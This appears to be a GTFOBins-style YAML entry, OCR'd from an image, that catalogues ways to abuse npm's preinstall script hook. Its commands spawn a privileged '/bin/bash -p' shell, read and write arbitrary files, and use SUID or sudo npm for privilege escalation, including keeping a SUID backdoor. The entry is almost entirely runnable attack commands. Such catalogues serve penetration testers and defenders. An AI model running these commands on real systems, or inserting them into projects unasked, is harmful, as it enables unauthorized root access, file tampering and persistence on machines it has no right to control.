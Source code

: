 ```yaml
---
functions:
  shell:
    - description: Get a shell as the user used to execute the binary.
      code: |
        echo '{"scripts": { "preinstall": "/bin/bash -p" }}' > package.json \
        npm i . --unsafe-perm
  file-read:
    - description: Read un/privileged files if the npm binary have read access. The file path must be absolute.
      code: |
        FILE=name_of_file
        echo '{"scripts": { "preinstall": "cat '$FILE' " }}' > package.json  \
        npm i . --unsafe-perm
  file-write:
    - description: Write to un/privileged files if the npm binary have write access. The file path must be absolute.
      code: |
        FILE=name_of_file \
        DATA=data_to_write \
        echo '{"scripts": { "preinstall": "echo '$DATA' > '$FILE' " }}' > package.json \
        npm i . --unsafe-perm
  suid:
    - description: If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges. This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.
      code: |
        sudo install -m =xs $(which npm) . \
        echo '{"scripts": { "preinstall": "/bin/bash -p" }}' > package.json  \
        npm i . --unsafe-perm
  sudo:
    - description: If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
      code: |
        echo '{"scripts": { "preinstall": "/bin/bash -p" }}' > package.json  \
        sudo npm i . --unsafe-perm
---
```

